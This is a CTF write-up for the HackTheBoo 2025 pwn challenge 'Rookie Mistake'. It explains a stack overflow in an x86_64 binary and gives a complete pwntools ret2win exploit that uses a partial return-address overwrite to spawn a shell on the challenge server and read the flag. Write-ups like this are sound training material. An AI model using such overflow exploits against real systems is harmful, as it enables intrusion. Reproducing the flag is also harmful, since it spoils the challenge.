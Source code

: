 ```yaml
---
title: "HackTheBoo CTF 2025 | Pwn: Rookie Mistake [easy]"
date: 2025-10-27
summary: "HackTheBoo 2025 CTF Pwn — Rookie-Mistake"
description: "Abusing a padding-only overflow to pivot main's return address onto the hidden win stub and pop a remote shell for the flag."
weight: 10
tags:
  - HackTheBox
  - HackTheBoo 2025
  - Pwn
  - ret2win
  - x86_64
categories:
  - HackTheBoo 2025
  - Pwn
draft: false
---
```


Rook — the fearless, reckless hunter — has become trapped within the binary during his attempt to erase NEMEGHAST. To set him free, you must align the cores and unlock his path back to the light. Failing that… find another way. Bypass the mechanism. Break the cycle. objective: Ret2win but not in a function, but a certain address.

## Step 1: Explore the Challenge Files

Identify the provided artifacts and the binary format.

```
ls
file rookie_mistake
cat README.txt
```

Findings:

- Single ELF named `rookie_mistake`, plus a themed README.
- 64-bit dynamically linked binary, **no PIE**, **NX enabled**, **stack canary disabled**, CET (IBT/SHSTK) on.

## Step 2: Baseline Runtime Behavior

Observe how the binary interacts with stdin/stdout.

```
./rookie_mistake
```

Output snippet:

```
【Gℓιт¢н Vσι¢є】Яοοқ... Μу ɓєℓονєɗ нυηтєя.. Aℓιgη тнє ¢οяєѕ.. Eѕ¢αρє!
rook@ie:~$ 【Gℓιт¢н Vσι¢є】Шɨʟʟ ʏѳʋ ʍąŋąɠɛ ȶѳ ƈąʟʟ ȶнɛ ƈѳяɛ ąŋɗ ɛʂƈąքɛ?!
```

Program reads from stdin once; any crash exits back to shell. No evidence of menuing or length checks—likely a single overflow.

## Step 3: Static Recon

Use pwntools/objdump to enumerate symbols and key functions.

```
from pwn import *
elf = ELF('rookie_mistake')
print('main', hex(elf.symbols['main']))
for name in ('banner','check_core','overflow_core','fail','setup'):
    func = elf.functions[name]
    print(f"{name}@{hex(func.address)} size {func.size}")
```

Highlights:

- `main` zeroes a 32-byte local buffer, prints ASCII art, then calls `read(0, buf, 0x2e)`.
- `check_core`/`overflow_core` compare six global “core” slots against user input; failing invokes `fail` (prints scolding text).
- `0x401758` is a short stub that loads the string `/bin/sh` from `.rodata` and jumps to `system@plt`—classic `win` gadget.

`strings` confirms `/bin/sh` at `0x4030a7`.

## Step 4: Measure the Overflow

Inspect `main`’s prologue to confirm stack layout.

```
objdump -d rookie_mistake --start-address=0x40176b --stop-address=0x4017d6
```

Key instructions:

- `sub rsp, 0x20` → local buffer is 0x20 bytes.
- After the `read` call there is no stack canary; returning uses the saved `rbp`/`rip` at offsets `+0x20` and `+0x28`.

Therefore payload structure: `[32 bytes padding][overwrite saved RBP][new RIP]`.

## Step 5: Local Proof of Concept

Craft payload and run locally to ensure the jump hits `system`.

```
from pwn import *
payload = b'A'*0x20 + b'B'*8 + p64(0x401758)[:6]
proc = process('./rookie_mistake')
proc.send(payload + b'id\n')
print(proc.recvline())
```

Notes:

- CET rejects 8-byte gadgets lacking ENDBR64, so partial overwrite (`[:6]`) keeps high bytes intact and lands exactly on `0x401758` which begins with ENDBR.
- After ret, banner still prints due to buffered output; patience is required.

## Step 6: The Exploit


```
from pwn import *
import time

context.binary = ELF('./rookie_mistake')
context.log_level = 'info'

HOST = '164.92.240.36'
PORT = 30498
WIN_ADDR = 0x401758
OFFSET = 0x20

payload = b'A' * OFFSET
payload += b'B' * 8
payload += p64(WIN_ADDR)[:6]

CMD = b'cat flag.txt || cat /flag'


def main():
    io = remote(HOST, PORT)
    io.sendline(payload)
    io.sendline(CMD)

    data = b''
    deadline = time.time() + 120
    while time.time() < deadline:
        chunk = io.recv(timeout=5)
        if not chunk:
            continue
        data += chunk
        if b'HTB{' in data:
            break

    start = data.index(b'HTB{')
    end = data.index(b'}', start)
    flag = data[start:end+1]
    log.success(flag.decode())
    with open('flag.txt', 'wb') as f:
        f.write(flag + b"\n")
    io.close()


if __name__ == '__main__':
    main()

```



- CET’s SHSTK/IBT do not hinder us because the entire thing is legitimate compiled code.
- The slow, sleep-laden `printstr` routine means `recvrepeat`/timeouts must be generous.


Run the exploit 

```
python3 exploit.py
```


```
[*] Opening connection to 164.92.240.36 on port 30498: Done
[*] Received 4146 bytes
[+] HTB{r3t2c0re_3sc4p3_th3_b1n4ry_9944a468344bd702fa436e27b18b3dd7}
```

## Takeaways

- Non-PIE binary + absent canary reduces exploit to straightforward ret2win despite CET being enabled.
- Partial-pointer overwrites remain handy for CET-hardened binaries where high bytes must remain canonical.
